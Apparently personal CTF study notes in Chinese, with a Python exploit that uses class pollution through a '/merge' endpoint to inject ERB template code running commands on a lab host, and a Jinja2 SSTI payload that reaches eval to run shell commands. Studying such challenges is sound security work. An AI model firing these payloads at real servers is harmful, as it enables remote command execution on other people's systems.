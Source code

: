 
以下是tel的exp：

```python
import json
import requests

url = "http://192.168.214.128:8888/"

data = {
    "class": {
        "superclass": {
            "superclass": {
                "subclasses": {
                    "sample": {
                        "settings": {
                            "templates": {
                                # "layout": ["<%= print(system('id'.downcase)) %>", "", ""]
                                "layout": ["<%= IO.popen('ls').readlines() %>", "", ""]
                            }
                        }
                    }
                }
            }
        }
    }
}

for i in range(500):
    r = requests.post(url + "/merge", data=json.dumps(data),
                      headers={"Content-Type": "text/plain"})
    print(r.text)

r = requests.get(url)
print(r.text)
```
 
 

这段时间碰到好多SSTI的题目，其中jinja2的ssti的payload研究一下

春秋杯冬季赛easy_flask，西湖论剑的web1，都是flask的ssti

`{% XX %}`是控制语句， `{{ var }}`是变量。

`{% for a in [].__class__.__base__.__subclasses__() %}{% if a.__name__=='_wrap_close' %}{{ a.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ipconfig').read()") }}{% endif %}{%endfor%}`



copy_file [春秋杯冬季赛]

没做出来，学习一下：[春秋杯冬季赛2024-2025-WEB - EddieMurphy's blog](https://eddiemurphy89.github.io/2025/01/17/春秋杯冬季赛2024-2025/#day1-file-copy)

[PHP filter chains: file read from error-based oracle](https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle)
